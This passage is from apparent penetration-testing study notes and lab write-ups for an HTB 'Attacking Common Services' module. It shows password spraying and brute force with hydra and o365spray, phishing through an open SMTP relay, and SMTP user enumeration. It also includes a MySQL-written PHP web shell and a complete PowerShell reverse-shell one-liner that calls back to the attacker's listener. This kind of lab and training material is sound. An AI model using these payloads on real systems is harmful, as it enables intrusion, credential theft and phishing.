# [2025-04-13 09:48:10,416] INFO : Valid Accounts: 2

```

</details>

</details>

<details>
<summary><h2>Password Attacks</h2></summary>

We can use different tools to perform a password spray or brute force against email services such as SMTP, POP3, or IMAP4. First, we need to get a username list and a password list and specify which service we want to attack.

Cloud services that support **SMTP**, **POP3**, or **IMAP4** may be vulnerable to password spraying.  

**Common Approaches**
* **Traditional Tools**
    * Hydra  ⚠️ Usually blocked by providers  

- **Custom / Specialized Tools**
    * [o365spray](https://github.com/0xZDH/o365spray) → Microsoft Office 365  
    * [MailSniper](https://github.com/dafthack/MailSniper) → Microsoft Office 365  
    * [CredKing](https://github.com/ustayready/CredKing) → Gmail / Okta  

**Important Considerations**
* Tools must always be **up-to-date**:
    * Cloud providers frequently change authentication flows and protections  
    * Outdated tools may fail silently  

* Security professionals should:
    * Understand **how tools work internally**  
    * Have the ability to **modify or extend** tools when they break  


<details>
<summary><h3>Hydra - Password Attack</h3></summary>

**Execute hydra against the service**
```bash 
hydra -L <USERNAME_LIST> -p '<PASSWORD_LIST>' -f <TARGET_IP> <SERVICE>
```
```bash 
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

# Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-13 11:37:46
# [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
# [DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
# [DATA] attacking pop3://10.10.110.20:110/
# [110][pop3] host: 10.129.42.197   login: john   password: Company01!
# 1 of 1 target successfully completed, 1 valid password found

```

</details>

<details>
<summary><h3>O365 Spray - Password Spraying</h3></summary>

```bash 
python3 o365spray.py --spray -U <USERNAME_LIST> -p '<PASSWORD>' --count 1 --lockout 1 --domain <DOMAIN>
```
```bash 
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

#             *** O365 Spray ***            

# >----------------------------------------<

#    > version        :  2.0.4
#    > domain         :  msplaintext.xyz
#    > spray          :  True
#    > password       :  March2022!
#    > userfile       :  usersfound.txt
#    > count          :  1 passwords/spray
#    > lockout        :  1.0 minutes
#    > spray_module   :  oauth2
#    > rate           :  10 threads
#    > safe           :  10 locked accounts
#    > timeout        :  25 seconds
#    > start          :  2025-04-14 12:26:31

# >----------------------------------------<

# [2025-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
# [2025-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
# [2025-04-14 12:26:32,202] INFO : Running password spray against 2 users.
# [2025-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2025!']
# [2025-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2025!
# [2025-04-14 12:26:33,048] INFO : 

# [ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2504141226.txt'
# [ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2504141226.txt'

# [2025-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

</details>

</details>

<details>
<summary><h2>Protocol Specific Attacks</h2></summary>

An open relay is a Simple Mail Transfer Protocol (**SMTP**) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

<details>
<summary><h2>Open Relay</h2></summary>

From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the nmap smtp-open-relay script, we can identify if an SMTP port allows an open relay.

```bash 
nmap -p25 -Pn --script smtp-open-relay <TARGET_IP>
```
```bash 
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
# Nmap scan report for <TARGET_IP>
# Host is up (0.28s latency).

# PORT   STATE SERVICE
# 25/tcp open  smtp
# |_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.

```bash 
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
```bash 
# === Trying 10.10.11.213:25...
# === Connected to 10.10.11.213.
# <-  220 mail.localdomain SMTP Mailer ready
#  -> EHLO parrot
# <-  250-mail.localdomain
# <-  250-SIZE 33554432
# <-  250-8BITMIME
# <-  250-STARTTLS
# <-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
# <-  250 HELP
#  -> MAIL FROM:<notifications@inlanefreight.com>
# <-  250 OK
#  -> RCPT TO:<employees@inlanefreight.com>
# <-  250 OK
#  -> DATA
# <-  354 End data with <CR><LF>.<CR><LF>
#  -> Date: Thu, 29 Oct 2020 01:36:06 -0400
#  -> To: employees@inlanefreight.com
#  -> From: notifications@inlanefreight.com
#  -> Subject: Company Notification
#  -> Message-Id: <20201029013606.775675@parrot>
#  -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
#  -> 
#  -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
#  -> 
#  -> 
#  -> .
# <-  250 OK
#  -> QUIT
# <-  221 Bye
# === Connection closed with remote host.
```

</details>

</details>

</details>

---

<details>
<summary><h1>🛠️ Skills Assessment</h1></summary>

<details>
<summary><h2>Attacking Common Services (EASY)</h2></summary>

We were commissioned by the company Inlanefreight to conduct a penetration test against three different hosts to check the servers' configuration and security. We were informed that a flag had been placed somewhere on each server to prove successful access. These flags have the following format:

* **HTB{...}**

Our task is to review the security of each of the three servers and present it to the customer. According to our information, the first server is a server that manages emails, customers, and their files.

<details>
<summary><h3>1. Enumeration</h3></summary>

I started enumerating the ports, their service version and running the default scripts to have a big picture of my target machine.

```bash 
nmap -p- -sC -sV -Pn -n 10.129.203.7
```
```bash 
# Nmap scan report for 10.129.203.7
# Host is up (0.066s latency).
# Not shown: 65528 filtered tcp ports (no-response)
# Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
# PORT     STATE SERVICE       VERSION
# 21/tcp   open  ftp
# | ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
# | Not valid before: 2022-04-21T19:27:17
# |_Not valid after:  2032-04-18T19:27:17
# |_ssl-date: 2025-09-19T02:49:22+00:00; 0s from scanner time.
# | fingerprint-strings: 
# |   GenericLines: 
# |     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
# |     Command unknown, not supported or not allowed...
# |     Command unknown, not supported or not allowed...
# |   NULL: 
# |_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
# 80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
# |_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
# | http-title: Welcome to XAMPP
# |_Requested resource was http://10.129.203.7/dashboard/
# 443/tcp  open  ssl/https     Core FTP HTTPS Server
# | ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
# | Not valid before: 2022-04-21T19:27:17
# |_Not valid after:  2032-04-18T19:27:17
# |_http-server-header: Core FTP HTTPS Server
# | fingerprint-strings: 
# |   FourOhFourRequest: 
# |     HTTP/1.1 401 Unauthorized
# |     Date:Fri, 19 Aug 2025 02:47:26 GMT
# |     Server: Core FTP HTTPS Server
# |     Connection: close
# |     WWW-Authenticate: Basic realm="Restricted Area"
# |     Content-Type: text/html
# |     Content-length: 61
# |     <BODY>
# |     <HTML>
# |     HTTP/1.1 401 Unauthorized
# |     </BODY>
# |     </HTML>
# |   GenericLines, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
# |     Command Not Recognized
# |   GetRequest: 
# |     HTTP/1.1 401 Unauthorized
# |     Date:Fri, 19 Aug 2025 02:47:25 GMT
# |     Server: Core FTP HTTPS Server
# |     Connection: close
# |     WWW-Authenticate: Basic realm="Restricted Area"
# |     Content-Type: text/html
# |     Content-length: 61
# |     <BODY>
# |     <HTML>
# |     HTTP/1.1 401 Unauthorized
# |     </BODY>
# |_    </HTML>
# |_ssl-date: 2025-09-19T02:49:21+00:00; 0s from scanner time.
# 3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
# | mysql-info: 
# |   Protocol: 10
# |   Version: 5.5.5-10.4.24-MariaDB
# |   Thread ID: 20
# |   Capabilities flags: 63486
# |   Some Capabilities: LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsCompression, ConnectWithDatabase, Speaks41ProtocolOld, IgnoreSigpipes, Support41Auth, Speaks41ProtocolNew, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsTransactions, ODBCClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
# |   Status: Autocommit
# |   Salt: KzI<.sx%J&}fdElqrg.N
# |_  Auth Plugin Name: mysql_native_password
# 3389/tcp open  ms-wbt-server Microsoft Terminal Services
# | ssl-cert: Subject: commonName=WIN-EASY
# | Not valid before: 2025-09-18T00:48:49
# |_Not valid after:  2026-03-20T00:48:49
# | rdp-ntlm-info: 
# |   Target_Name: WIN-EASY
# |   NetBIOS_Domain_Name: WIN-EASY
# |   NetBIOS_Computer_Name: WIN-EASY
# |   DNS_Domain_Name: WIN-EASY
# |   DNS_Computer_Name: WIN-EASY
# |   Product_Version: 10.0.17763
# |_  System_Time: 2025-09-19T02:49:02+00:00
# |_ssl-date: 2025-09-19T02:49:21+00:00; 0s from scanner time.

# Service Info: Host: WIN-EASY; OS: Windows; CPE: cpe:/o:microsoft:windows

# Nmap done: 1 IP address (1 host up) scanned in 253.05 seconds
```

</details>

<details>
<summary><h3>2. Identify valid users</h3></summary>

Given that the server's function was described as managing emails, the SMTP service was a logical target for user enumeration. Using the smtp-user-enum tool, I tested a common username list against the server.

```bash 
smtp-user-enum -M RCPT -U ~/Downloads/users.list -t 10.129.203.7 -D inlanefreight.htb
```
```bash 
# Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

#  ----------------------------------------------------------
# |                   Scan Information                       |
#  ----------------------------------------------------------

# Mode ..................... RCPT
# Worker Processes ......... 5
# Usernames file ........... /home/htb-ac-1640397/Downloads/users.list
# Target count ............. 1
# Username count ........... 79
# Target TCP port .......... 25
# Query timeout ............ 5 secs
# Target domain ............ inlanefreight.htb

######## Scan started at Thu Sep 18 20:23:50 2025 #########
 10.129.203.7: <USER>@inlanefreight.htb exists
######## Scan completed at Thu Sep 18 20:23:56 2025 #########
1 results.

# 79 queries in 6 seconds (13.2 queries / sec)
```

This proved successful, confirming the existence of a valid user account: `<USER>`.

</details>

<details>
<summary><h3>3. Brute Force</h3></summary>

With a valid username, the next objective was to obtain a password. I attempted a password-spraying attack using hydra against several login services.

Initial attempts against FTP (21) and SMTP (25) failed immediately, with the server dropping connections. This indicated the presence of an automated security mechanism designed to block brute-force attacks.

By redirecting a methodical and slow brute-force attack against the FTP service, I was eventually able to identify the correct password for the user.

```bash 
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt  -t 1 10.129.203.7 ftp -vV
```
```bash 
# Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-18 21:00:12

# [DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
# [DATA] attacking ftp://10.129.203.7:21/
# [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
# [ATTEMPT] target 10.129.203.7 - login "<USER>" - pass "123456" - 1 of 14344399 [child 0] (0/0)
# [ATTEMPT] target 10.129.203.7 - login "<USER>" - pass "12345" - 2 of 14344399 [child 1] (0/0)
...
[ATTEMPT] target 10.129.203.7 - login "<USER>" - pass "<PASSWORD>" - 82 of 14344436 [child 3] (0/37)
[21][ftp] host: 10.129.203.7   login: <USER>   password: <PASSWORD>
# [STATUS] attack finished for 10.129.203.7 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
# Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-18 21:00:54
```

</details>

<details>
<summary><h3>4. Access the services</h3></summary>

Upon gaining access to the FTP server with the compromised credentials, I proceeded with internal enumeration. I resolved a common FTP client issue with the ls command by adjusting the connection mode, which then allowed for directory listing.

```bash 
ftp 10.129.203.7
```
```bash 
# Connected to 10.129.203.7.
# 220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
Name (10.129.203.7:root): <USER>
# 331 password required for <USER>
Password: <PASSWORD>
# 230-Logged on
# 230 
# Remote system type is UNIX.
# Using binary mode to transfer files.
ftp> passive
# Passive mode: off; fallback to active mode: off.
ftp> ls
# 200 PORT command successful
# 150 Opening ASCII mode data connection
# -r-xr-xrwx   1 owner    group              55 Apr 21  2022      docs.txt
# -r-xr-xrwx   1 owner    group             255 Apr 22  2022      WebServersInfo.txt
# 226 Transfer Complete
ftp> get docs.txt
# local: docs.txt remote: docs.txt
# 200 PORT command successful
# 150 RETR command started
#     55       24.44 KiB/s 
# 226 Transfer Complete
# 55 bytes received in 00:00 (1.30 KiB/s)
ftp> get WebServersInfo.txt
# local: WebServersInfo.txt remote: WebServersInfo.txt
# 200 PORT command successful
# 150 RETR command started
#    255        2.58 MiB/s 
# 226 Transfer Complete
# 255 bytes received in 00:00 (6.21 KiB/s)
ftp> quit
# 221-
# 221 Goodbye
```

```bash 
cat docs.txt
# I'm testing the FTP using HTTPS, everything looks good.
```
```bash 
cat WebServersInfo.txt 
# CoreFTP:
# Directory C:\CoreFTP
# Ports: 21 & 443
# Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt

# Apache
# Directory "C:\xampp\htdocs\"
# Ports: 80 & 4443
# Test Command: curl http://localhost/test.php
```
```bash 
curl -k -H “Host: localhost” – basic -u <USER>:<PASSWORD> https://10.129.203.7/docs.txt
# curl: (6) Could not resolve host: xn--localhost-tc0e
# curl: (6) Could not resolve host: xn--7ug
# curl: (6) Could not resolve host: basic
# I'm testing the FTP using HTTPS, everything looks good.
```
```bash 
curl http://10.129.203.7/test.php
# Hello World!
```

```bash 
mysql -h 10.129.203.7 -u <USER> -p

# Enter password: 
# Welcome to the MariaDB monitor.  Commands end with ; or \g.
# Your MariaDB connection id is 27
# Server version: 10.4.24-MariaDB mariadb.org binary distribution

# Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

# Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

# MariaDB [(none)]>
```

</details>

<details>
<summary><h3>5. Reverse Shell</h3></summary>

I have two key pieces of information:

* Write access to the FTP server as `<USER>`.
* The directory of the Apache web server is "C:\xampp\htdocs\".

The goal now is to use the FTP access to upload a web shell into the Apache directory so I can execute commands on the server.

```bash 
MariaDB [(none)]> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php';
# Query OK, 1 row affected (0.068 sec)
```

```bash 
curl "http://10.129.203.7/shell.php?cmd=whoami"
# nt authority\system
```

```bash 
sudo nc -lvnp 4444
```

```bash 
nano rev.ps1
```
```ps1 
$client = New-Object System.Net.Sockets.TCPClient("10.10.15.130",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash 
iconv -t UTF-16LE rev.ps1 | base64 -w 0
# JABjAGwAaQB...AoACkACgA=
```
```bash 
curl "http://10.129.203.7/shell.php?cmd=powershell%20-e%20JABjAGwAaQB...AoACkACgA="
```

```bash 
sudo nc -lvnp 4444
# listening on [any] 4444 ...
# connect to [10.10.15.130] from (UNKNOWN) [10.129.203.7] 49682
whoami
# nt authority\system

PS C:\xampp\htdocs> ls
# Directory: C:\xampp\htdocs

# Mode                LastWriteTime         Length Name                                                                  
# ----                -------------         ------ ----                                                                  
# d-----        4/22/2022   9:17 AM                dashboard                                                             
# d-----        4/22/2022   9:17 AM                img                                                                   
# d-----        4/22/2022   9:16 AM                webalizer                                                             
# d-----        4/22/2022   9:17 AM                xampp                                                                 
# -a----        8/27/2019   9:02 AM           3607 applications.html                                                     
# -a----        8/27/2019   9:02 AM            177 bitnami.css                                                           
# -a----        7/16/2015  10:32 AM          30894 favicon.ico                                                           
# -a----        7/16/2015  10:32 AM            260 index.php                                                             
# -a----        9/18/2025  10:02 PM             31 shell.php                                                             
# -a----        4/22/2022  10:02 AM             29 test.php                                                              

PS C:\xampp> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> ls

# Directory: C:\Users\Administrator\Desktop

# Mode                LastWriteTime         Length Name                                                                  
# ----                -------------         ------ ----                                                                  
# -a----        4/22/2022  10:36 AM             39 flag.txt                                                              

PS C:\Users\Administrator\Desktop> cat flag.txt
# <FLAG>
```

</details>

</details>

<details>
<summary><h2>Attacking Common Services (MEDIUM)</h2></summary>

The second server is an internal server (within the inlanefreight.htb domain) that manages and stores emails and files and serves as a backup of some of the company's processes. From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.

<details>
<summary><h3>2. Enumeration</h3></summary>

I started enumerating the ports, their service version and running the default scripts to have a big picture of my target machine.

```bash 
sudo nmap -p- -sC -sV -Pn 10.129.157.24
```
```bash 
# Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-22 20:42 CDT
# Nmap scan report for 10.129.157.24
# Host is up (0.067s latency).
# Not shown: 65529 closed tcp ports (reset)
# PORT      STATE SERVICE  VERSION
# 22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
# |   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
# |_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
# 53/tcp    open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
# | dns-nsid: 
# |_  bind.version: 9.16.1-Ubuntu
# 110/tcp   open  pop3     Dovecot pop3d
# |_ssl-date: TLS randomness does not represent time
# | ssl-cert: Subject: commonName=ubuntu
# | Subject Alternative Name: DNS:ubuntu
# | Not valid before: 2022-04-11T16:38:55
# |_Not valid after:  2032-04-08T16:38:55
# |_pop3-capabilities: SASL(PLAIN) RESP-CODES AUTH-RESP-CODE PIPELINING CAPA TOP UIDL USER STLS
# 995/tcp   open  ssl/pop3 Dovecot pop3d
# | ssl-cert: Subject: commonName=ubuntu
# | Subject Alternative Name: DNS:ubuntu
# | Not valid before: 2022-04-11T16:38:55
# |_Not valid after:  2032-04-08T16:38:55
# |_ssl-date: TLS randomness does not represent time
# |_pop3-capabilities: TOP SASL(PLAIN) UIDL RESP-CODES USER AUTH-RESP-CODE PIPELINING CAPA
# 2121/tcp  open  ftp
# | fingerprint-strings: 
# |   GenericLines: 
# |     220 ProFTPD Server (InlaneFTP) [10.129.157.24]
# |     Invalid command: try being more creative
# |     Invalid command: try being more creative
# |   NULL: 
# |_    220 ProFTPD Server (InlaneFTP) [10.129.157.24]
# 30021/tcp open  ftp
# | fingerprint-strings: 
# |   GenericLines: 
# |     220 ProFTPD Server (Internal FTP) [10.129.157.24]
# |     Invalid command: try being more creative
# |     Invalid command: try being more creative
# |   NULL: 
# |_    220 ProFTPD Server (Internal FTP) [10.129.157.24]
```

```bash 
dig AXFR @10.129.157.24 inlanefreight.htb
```
```bash 
# ; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> AXFR @10.129.157.24 inlanefreight.htb
# ; (1 server found)
# ;; global options: +cmd
# inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
# inlanefreight.htb.	604800	IN	NS	ns.inlanefreight.htb.
# app.inlanefreight.htb.	604800	IN	A	10.129.200.5
# dc1.inlanefreight.htb.	604800	IN	A	10.129.100.10
# dc2.inlanefreight.htb.	604800	IN	A	10.129.200.10
# int-ftp.inlanefreight.htb. 604800 IN	A	127.0.0.1
# int-nfs.inlanefreight.htb. 604800 IN	A	10.129.200.70
# ns.inlanefreight.htb.	604800	IN	A	127.0.0.1
# un.inlanefreight.htb.	604800	IN	A	10.129.200.142
# ws1.inlanefreight.htb.	604800	IN	A	10.129.200.101
# ws2.inlanefreight.htb.	604800	IN	A	10.129.200.102
# wsus.inlanefreight.htb.	604800	IN	A	10.129.200.80
# inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
# ;; Query time: 66 msec
# ;; SERVER: 10.129.157.24#53(10.129.157.24) (TCP)
# ;; WHEN: Mon Sep 22 20:53:29 CDT 2025
# ;; XFR size: 13 records (messages 1, bytes 372)
```

```bash 
ftp 10.129.157.24 30021
```
```bash 
# Connected to 10.129.157.24.
# 220 ProFTPD Server (Internal FTP) [10.129.157.24]
Name (10.129.157.24:root): anonymous
# 331 Anonymous login ok, send your complete email address as your password
Password: 
# 230 Anonymous access granted, restrictions apply
# Remote system type is UNIX.
# Using binary mode to transfer files.
ftp> passive
# Passive mode: off; fallback to active mode: off.
ftp> dir
# 200 EPRT command successful
# 150 Opening ASCII mode data connection for file list
# drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 <USER>
# 226 Transfer complete
ftp> cd <USER>
# 250 CWD command successful
ftp> dir
# 200 EPRT command successful
# 150 Opening ASCII mode data connection for file list
# -rw-rw-r--   1 ftp      ftp           153 Apr 18  2022 mynotes.txt
# 226 Transfer complete
ftp> get mynotes.txt
# local: mynotes.txt remote: mynotes.txt
# 200 EPRT command successful
# 150 Opening BINARY mode data connection for mynotes.txt (153 bytes)
# 100% |*************************************************************************************************|   153       52.83 KiB/s    00:00 ETA
# 226 Transfer complete
# 153 bytes received in 00:00 (2.09 KiB/s)
ftp> exit
# 221 Goodbye.
```

```bash 
cat mynotes.txt 
```
```bash 
# <PASSWORD1>
# <PASSWORD2>
# <PASSWORD3>
# <PASSWORD4>
# <PASSWORD5>
# <PASSWORD6>
# <PASSWORD7>
# <PASSWORD8>
```

```bash 
hydra -l <USER> -P ./mynotes.txt ftp://10.129.157.24:2121/ -vV
```
```bash 
# Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

# Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-22 21:05:13
# [DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
# [DATA] attacking ftp://10.129.157.24:2121/
# [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD1>" - 1 of 8 [child 0] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD2>" - 2 of 8 [child 1] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD3>" - 3 of 8 [child 2] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD1>" - 4 of 8 [child 3] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD5>" - 5 of 8 [child 4] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD6>" - 6 of 8 [child 5] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD7>" - 7 of 8 [child 6] (0/0)
# [ATTEMPT] target 10.129.157.24 - login "<USER>" - pass "<PASSWORD8>" - 8 of 8 [child 7] (0/0)
# [2121][ftp] host: 10.129.157.24   login: <USER>   password: <PASSWORD6>
# [STATUS] attack finished for 10.129.157.24 (waiting for children to complete tests)
# 1 of 1 target successfully completed, 1 valid password found
# Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-22 21:05:23
```

```bash 
ftp 10.129.157.24 2121
```
```bash 
# Connected to 10.129.157.24.
# 220 ProFTPD Server (InlaneFTP) [10.129.157.24]
Name (10.129.157.24:root): "<USER>"
# 331 Password required for <USER>
Password: 
# 230 User <USER> logged in
# Remote system type is UNIX.
# Using binary mode to transfer files.
ftp> dir
# 229 Entering Extended Passive Mode (|||42377|)
# 150 Opening ASCII mode data connection for file list
# -rw-r--r--   1 root     root           29 Apr 20  2022 flag.txt
# drwxrwxr-x   3 <USER>    <USER>        4096 Apr 18  2022 Maildir
# 226 Transfer complete
ftp> get flag.txt
# local: flag.txt remote: flag.txt
# 229 Entering Extended Passive Mode (|||1522|)
# 150 Opening BINARY mode data connection for flag.txt (29 bytes)
#     29       13.50 KiB/s 
# 226 Transfer complete
# 29 bytes received in 00:00 (0.41 KiB/s)
ftp> exit
# 221 Goodbye.
```

```bash 
cat flag.txt
# <FLAG>
```

</details>

</details>

<details>
<summary><h2>Attacking Common Services (HARD)</h2></summary>

The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

<details>
<summary><h3>Enumeration</h3></summary>

```bash 
sudo nmap -p- -sC -sV -Pn <TARGET_IP>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-23 21:22 CDT
Nmap scan report for <TARGET_IP>
Host is up (0.066s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   <TARGET_IP>:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   <TARGET_IP>:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-09-24T02:19:04
|_Not valid after:  2055-09-24T02:19:04
|_ssl-date: 2025-09-24T02:26:56+00:00; 0s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-24T02:26:56+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2025-09-23T02:18:53
|_Not valid after:  2026-03-25T02:18:53
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-24T02:26:16+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-24T02:26:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 292.33 seconds
```

</details>

<details>
<summary><h3>SMB</h3></summary>

Listing the service

```bash 
smbclient -L <TARGET_IP>
# Password for [WORKGROUP\htb-ac-1640397]:

# 	Sharename       Type      Comment
# 	---------       ----      -------
# 	ADMIN$          Disk      Remote Admin
# 	C$              Disk      Default share
# 	Home            Disk      
# 	IPC$            IPC       Remote IPC
# Reconnecting with SMB1 for workgroup listing.
# do_connect: Connection to <TARGET_IP> failed (Error NT_STATUS_IO_TIMEOUT)
# Unable to connect with SMB1 -- no workgroup available

smb: \> dir
#   .                                   D        0  Thu Apr 21 16:18:21 2022
#   ..                                  D        0  Thu Apr 21 16:18:21 2022
#   HR                                  D        0  Thu Apr 21 15:04:39 2022
#   IT                                  D        0  Thu Apr 21 15:11:44 2022
#   OPS                                 D        0  Thu Apr 21 15:05:10 2022
#   Projects                            D        0  Thu Apr 21 15:04:48 2022

# 		7706623 blocks of size 4096. 3143783 blocks available

smb: \> cd IT
smb: \IT\> dir
#   .                                   D        0  Thu Apr 21 15:11:44 2022
#   ..                                  D        0  Thu Apr 21 15:11:44 2022
#   Fiona                               D        0  Thu Apr 21 15:11:53 2022
#   John                                D        0  Thu Apr 21 16:15:09 2022
#   Simon                               D        0  Thu Apr 21 16:16:07 2022

# 		7706623 blocks of size 4096. 3143783 blocks available
```

<details>
<summary><h4>Fiona</h4></summary>

Listing Fiona

```bash 
smb: \IT\Fiona\> dir
#   .                                   D        0  Thu Apr 21 15:11:53 2022
#   ..                                  D        0  Thu Apr 21 15:11:53 2022
#   creds.txt                           A      118  Thu Apr 21 15:13:11 2022

